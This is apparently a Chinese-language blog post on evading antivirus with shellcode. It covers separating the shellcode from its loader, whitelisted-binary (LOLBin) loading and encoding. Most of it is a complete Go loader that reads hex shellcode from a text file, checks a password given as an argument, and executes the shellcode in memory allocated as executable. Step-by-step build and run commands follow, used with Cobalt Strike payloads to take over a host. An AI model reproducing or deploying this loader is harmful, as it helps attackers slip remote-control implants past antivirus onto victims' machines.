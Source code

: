 ```yaml
---
layout: post
title: " 【原创】ShellCode免杀的骚姿势"
date: "2022-05-05T09:19:05.615Z"
---
```

【原创】ShellCode免杀的骚姿势
===================

ShellCode免杀的骚姿势
---------------

    常见的免杀手法：
    
    shellcode(攻击代码)和加载程序的分离；
    Lolbins白利用加载shellcode（白名单利用）；
    shellcode混淆、编码解码；
    

### shellcode(攻击代码)和加载程序的分离

生成一个C语言的playload做测试实验；

![image-20220505101255117](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413646-1411703289.png)

本质上生成c的payload就是16进制的代码，这些代码插入目标主机的内存中，就能触发CS远控；

![image-20220505101650083](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413623-774519040.png)

这里我们在来看下官方的定义；

    shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。
    

但shellcode类似于图纸，本身并不能进行执行，必须要配合加载器才能进行使用，所以一般杀软不会杀shellcode；exe文件就是shellcode+加载器一起集成了，容易被查杀；

单独的加载器可以使用go-shellcode-launcher

    package main
    
    import (
    	"io/ioutil"
    	"os"
    	"syscall"
    	"unsafe"
    	"strings"
    	"fmt"
    	"encoding/hex"
    	"crypto/md5"
    )
    
    const (
    	MEM_COMMIT             = 0x1000
    	MEM_RESERVE            = 0x2000
    	PAGE_EXECUTE_READWRITE = 0x40
    )
    var (
    	kernel32       = syscall.MustLoadDLL("kernel32.dll")
    	ntdll          = syscall.MustLoadDLL("ntdll.dll")
    	VirtualAlloc   = kernel32.MustFindProc("VirtualAlloc")
    	RtlCopyMemory  = ntdll.MustFindProc("RtlCopyMemory")
    	)
    
    func checkErr(err error) {
    	if err != nil {
    		if err.Error() != "The operation completed successfully." {
    			println(err.Error())
    			os.Exit(1)
    		}
    	}
    }
    func main() {
    
    
    	if len(os.Args) <= 2 {
    		os.Exit(0)
    	}
    
    	//var shellcodes string
    	var shellcode []byte
    
    	if len(os.Args) > 2 {
    		data := []byte(os.Args[1])
    		has := md5.Sum(data)
    		md5str1 := fmt.Sprintf("%x", has) //将[]byte转成16进制
    		if (md5str1) != "81592ae4e09eb3dfb96aaecbf84730d0" {
    			//第一个参数只有是 bobohacker 才能跑起
    			os.Exit(0)
    		}
    
    		if fileObj, err := os.Open(os.Args[2]); err == nil {
    			//第二个参数为放shellcode的txt文件名
    			defer fileObj.Close()
    			if contents, err := ioutil.ReadAll(fileObj); err == nil {
    				shellcodes := strings.ReplaceAll(string(contents), "\n", "")
    				shellcodes = strings.ReplaceAll(string(shellcodes), "\\x", "")
    				shellcode, _ = hex.DecodeString(shellcodes)
    			}
    
    		}
    	}
    	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
    	if addr == 0 {
    		checkErr(err)
    	}
    	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
    	checkErr(err)
    	syscall.Syscall(addr, 0, 0, 0, 0)
    }
    
    

继续生成payload123.c，然后将payload的内容复制出来，放在bobo.txt中

![image-20220505125100039](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413733-376067569.png)

将go的文件编译成exe文件

    go build golauncher.go
    

然在目录下执行

    golauncher.exe bobohacker bobo.txt
    其中的bobohacker是密码；
    

![image-20220505125409943](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413647-357892171.png)

然后就触发shell，拿下主机；

![image-20220505133918728](https://img2022.cnblogs.com/blog/1231688/202205/1231688-20220505145413676-1660918650.png)